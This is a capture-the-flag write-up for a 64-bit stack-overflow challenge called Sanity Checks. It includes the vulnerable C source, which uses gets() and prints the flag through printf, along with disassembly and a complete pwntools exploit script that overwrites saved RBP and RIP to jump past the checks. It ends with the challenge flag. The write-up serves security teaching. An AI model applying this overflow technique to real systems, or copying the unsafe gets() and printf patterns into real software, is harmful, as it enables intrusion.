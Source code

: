 # Sanity Checks

## Challenge

We are presented with a login prompt.
If we enter the correct password, the program will check some variables and, if they are set to the correct values, will print the flag.
However, none of the variables are set to the correct values initially, and the user is not prompted to change them.

### Mitigations

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### Source code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void main(){
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    char password[64];
    int ways_to_leave_your_lover = 0;
    int what_i_cant_drive = 0;
    int when_im_walking_out_on_center_circle = 0;
    int which_highway_to_take_my_telephones_to = 0;
    int when_i_learned_the_truth = 0;
    
    printf("Enter the secret word: ");
    
    gets(&password);
    
    if(strcmp(password, "password123") == 0){
        puts("Logged in! Let's just do some quick checks to make sure everything's in order...");
        if (ways_to_leave_your_lover == 50) {
            if (what_i_cant_drive == 55) {
                if (when_im_walking_out_on_center_circle == 245) {
                    if (which_highway_to_take_my_telephones_to == 61) {
                        if (when_i_learned_the_truth == 17) {
                            char flag[128];
                            
                            FILE *f = fopen("flag.txt","r");
                            
                            if (!f) {
                                printf("Missing flag.txt. Contact an admin if you see this on remote.");
                                exit(1);
                            }
                            
                            fgets(flag, 128, f);
                            
                            printf(flag);
                            return;
                        }
                    }
                }
            }
        }
        puts("Nope, something seems off.");
    } else {
        puts("Login failed!");
    }
}
```

## Solution

We can see from disassembling the program that the variables it checks are at higher addresses than the buffer:

```asm
[0x004010b0]> pdf @ main
            ; DATA XREF from entry0 @ 0x4010d1
┌ 327: int main (int argc, char **argv, char **envp);
│           ; var char *format @ rbp-0xe0
│           ; var char *s1 @ rbp-0x60
│           ; var file*stream @ rbp-0x20
│           ; var uint32_t var_14h @ rbp-0x14
│           ; var uint32_t var_10h @ rbp-0x10
│           ; var uint32_t var_ch @ rbp-0xc
│           ; var uint32_t var_8h @ rbp-0x8
│           ; var uint32_t var_4h @ rbp-0x4
```

So if we overflow the buffer, we can overwrite the values stored in these variables.

Alternatively, we can just overwrite the stored RIP to jump inside the main function after these tests, so that we skip them and print the flag.
This is the method used in the exploit script below.

```asm
│  ││││││   0x0040125a      488d35200e00.  lea rsi, [0x00402081]       ; "r" ; const char *mode
│  ││││││   0x00401261      488d3d1b0e00.  lea rdi, str.flag.txt       ; 0x402083 ; "flag.txt" ; const char *filename
│  ││││││   0x00401268      e823feffff     call sym.imp.fopen          ; file*fopen(const char *filename, const char *mode)
│  ││││││   0x0040126d      488945e0       mov qword [stream], rax
│  ││││││   0x00401271      48837de000     cmp qword [stream], 0
│ ┌───────< 0x00401276      751b           jne 0x401293
│ │││││││   0x00401278      488d3d110e00.  lea rdi, str.Missing_flag.txt._Contact_an_admin_if_you_see_this_on_remote. ; 0x402090 ; "Missing flag.txt. Contact an admin if you see this on remote." ; const char *format
│ │││││││   0x0040127f      b800000000     mov eax, 0
│ │││││││   0x00401284      e8c7fdffff     call sym.imp.printf         ; int printf(const char *format)
│ │││││││   0x00401289      bf01000000     mov edi, 1                  ; int status
│ │││││││   0x0040128e      e80dfeffff     call sym.imp.exit           ; void exit(int status)
│ │││││││   ; CODE XREF from main @ 0x401276
│ └───────> 0x00401293      488b55e0       mov rdx, qword [stream]     ; FILE *stream
│  ││││││   0x00401297      488d8520ffff.  lea rax, [format]
│  ││││││   0x0040129e      be80000000     mov esi, 0x80               ; 128 ; int size
│  ││││││   0x004012a3      4889c7         mov rdi, rax                ; char *s
│  ││││││   0x004012a6      e8b5fdffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
│  ││││││   0x004012ab      488d8520ffff.  lea rax, [format]
│  ││││││   0x004012b2      4889c7         mov rdi, rax                ; const char *format
│  ││││││   0x004012b5      b800000000     mov eax, 0
│  ││││││   0x004012ba      e891fdffff     call sym.imp.printf         ; int printf(const char *format)
```

This method is similar to the approach for tranquil, the previous problem, except we also need to make sure the saved RBP is overwritten such that RBP-0xe0 is writable, as this is where the flag will be read into.
To do so, we can use the data section for the binary, which is always known due to PIE being disabled.

## Exploit

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host shell.actf.co --port 21303 checks
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('checks')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'shell.actf.co'
port = int(args.PORT or 21303)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

win = 0x0040125a
data = 0x405000

payload = flat({0x60: [data, win]})

io.sendline(payload)

io.interactive()
```

## Flag

`actf{if_you_aint_bout_flags_then_i_dont_mess_with_yall}`

